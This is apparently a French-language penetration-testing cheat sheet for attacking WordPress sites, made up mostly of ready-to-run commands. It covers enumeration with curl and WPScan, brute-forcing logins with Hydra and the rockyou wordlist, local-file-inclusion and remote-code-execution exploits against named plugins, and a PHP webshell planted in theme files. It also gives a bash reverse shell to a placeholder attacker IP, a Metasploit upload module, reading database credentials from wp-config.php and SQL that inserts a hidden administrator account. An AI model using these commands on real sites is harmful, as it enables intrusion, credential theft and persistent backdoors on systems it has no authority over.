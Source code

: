 # WordPress

WordPress est le CMS le plus populaire au monde, alimentant plus de 40% des sites web.

## 🔍 Énumération

### Identification
```bash
# Vérifier robots.txt
curl -s $URL/robots.txt | grep -i wordpress

# Rechercher des marqueurs spécifiques
curl -s $URL | grep -i "wp-content\|wp-includes\|wordpress"

# Vérifier le générateur dans les méta-tags
curl -s $URL | grep -i "name=\"generator\""
```

### Scan avec WPScan
```bash
# Scan complet
wpscan --url $URL

# Scan avec API token (plus complet)
wpscan --url $URL --api-token TOKEN --enumerate

# Énumérer les utilisateurs
wpscan --url $URL --enumerate u

# Énumérer les plugins vulnérables
wpscan --url $URL --enumerate vp
```

### Recherche manuelle
```bash
# Vérifier la version dans le readme
curl -s $URL/readme.html

# Énumérer les thèmes
curl -s $URL | grep -o "wp-content/themes/[^/]*" | sort -u

# Énumérer les plugins
curl -s $URL | grep -o "wp-content/plugins/[^/]*" | sort -u
```

## 🔨 Exploitation

### Brute Force d'identifiants
```bash
# Avec WPScan (méthode xmlrpc - plus rapide)
wpscan --url $URL --usernames users.txt --passwords /usr/share/wordlists/rockyou.txt --password-attack xmlrpc

# Avec WPScan (méthode wp-login)
wpscan --url $URL --usernames users.txt --passwords /usr/share/wordlists/rockyou.txt --password-attack wp-login

# Avec Hydra
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt $URL_HOSTNAME http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

### Exploitation des plugins vulnérables
```bash
# Mail-Masta plugin (LFI)
curl -s "$URL/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"

# WP File Manager (RCE)
# CVE-2020-25213
curl -s "$URL/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"

# wpDiscuz (RCE)
# Utiliser l'exploit: https://www.exploit-db.com/exploits/49967
```

### Modification de thème pour RCE
```bash
# Après connexion en admin, modifier un fichier de thème
# Ajouter à 404.php ou footer.php
<?php system($_GET['cmd']); ?>

# Accéder au webshell
curl "$URL/wp-content/themes/twentytwenty/404.php?cmd=id"
```

## 🔐 Post-exploitation

### Obtention d'un reverse shell
```bash
# Via modification de thème (après authentification admin)
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/VOTRE_IP/4444 0>&1'"); ?>

# Utilisez Metasploit
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS $URL_HOSTNAME
set USERNAME admin
set PASSWORD password
set TARGETURI /
set LHOST VOTRE_IP
exploit
```

### Modification de la base de données
```bash
# Trouver les informations de connexion à la BDD
cat wp-config.php | grep DB_

# Se connecter à la BDD
mysql -h localhost -u $DBUSER -p$DBPASS $DBNAME

# Créer un nouvel administrateur
INSERT INTO wp_users (user_login, user_pass, user_nicename, user_email, user_status, display_name) VALUES ('hacker', MD5('password'), 'Hacker', 'hacker@example.com', '0', 'Hacker');
INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES (LAST_INSERT_ID(), 'wp_capabilities', 'a:1:{s:13:"administrator";b:1;}');
INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES (LAST_INSERT_ID(), 'wp_user_level', '10');
```

## ⚠️ Erreurs courantes & astuces
- WordPress stocke les identifiants de BDD en clair dans wp-config.php
- Vérifiez les fichiers de sauvegarde (.bak, ~, .old) dans le répertoire racine
- Les plugins désactivés peuvent toujours être vulnérables
- Testez les accès XMLRPC qui peuvent être vulnérables même lorsque protégés
- Certains thèmes WordPress ont des pages spécifiques vulnérables